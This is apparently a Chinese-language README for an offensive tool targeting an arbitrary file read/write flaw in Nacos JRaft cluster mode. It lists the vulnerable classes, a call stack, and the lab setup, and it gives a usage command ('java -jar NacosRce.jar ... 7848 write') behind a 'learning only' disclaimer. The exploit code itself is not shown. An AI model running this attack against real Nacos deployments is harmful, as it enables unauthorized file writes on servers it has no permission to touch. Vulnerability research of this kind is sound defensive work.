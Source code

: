 #### Nacos JRaft 任意文件读写

一些操作信息记录

```java
com.alibaba.nacos.core.storage.kv.FileKvStorage实现了com.alibaba.nacos.core.storage.kv.KvStorage，这是任意文件读写位置

com.alibaba.nacos.naming.consistency.persistent.impl.BasePersistentServiceProcessor#onApply任意文件读写调用点

com.alibaba.nacos.naming.consistency.persistent.impl.BasePersistentServiceProcessor#group返回了naming_persistent_service表示调用的group

读文件方法：
com.alibaba.nacos.core.storage.kv.FileKvStorage#get

写文件方法：
com.alibaba.nacos.core.storage.kv.FileKvStorage#put
```

#### BasePersistentServiceProcessor的onApply调用堆栈

```java
TomcatEmbeddedWebappClassLoader@4a8355dd
    @com.alibaba.nacos.naming.consistency.persistent.impl.BasePersistentServiceProcessor.onApply()
        at com.alibaba.nacos.core.distributed.raft.NacosStateMachine.onApply(NacosStateMachine.java:122)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.doApplyTasks(FSMCallerImpl.java:597)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.doCommitted(FSMCallerImpl.java:561)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.runApplyTask(FSMCallerImpl.java:467)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.access$100(FSMCallerImpl.java:73)
        at com.alipay.sofa.jraft.core.FSMCallerImpl$ApplyTaskHandler.onEvent(FSMCallerImpl.java:150)
        at com.alipay.sofa.jraft.core.FSMCallerImpl$ApplyTaskHandler.onEvent(FSMCallerImpl.java:142)
        at com.lmax.disruptor.BatchEventProcessor.run(BatchEventProcessor.java:137)
        at java.lang.Thread.run(Thread.java:748)
```

#### 注册group类

```java
com.alibaba.nacos.core.distributed.raft.JRaftServer#createMultiRaftGroup
```

#### 只有集群模式有漏洞

开启集群模式

使用MySQL数据库，cluster.conf配置文件中只写入本机IP地址：10.10.87.157:8848，然后启动：sh startup.sh

```
https://nacos.io/zh-cn/docs/cluster-mode-quick-start.html
```

#### 写入成功截图

![iShot_2024-08-26_17.40.21](/Users/skymurray/WorkSpace/java/NacosFileReadWrite/NacosFileReadWrite/iShot_2024-08-26_17.40.21.png)

![iShot_2024-08-26_17.41.40](./iShot_2024-08-26_17.41.40.png)

<br />

注意：工具仅供学习使用，请勿滥用，否则后果自负！

<br />**食用方式 **<br />
<br />

```shell
java -jar NacosRce.jar http://192.168.90.1:8848/ 7848 write
```

<br />[https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-反序列化分析/](https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/)
<br />[https://github.com/c0olw/NacosRce](https://github.com/c0olw/NacosRce)

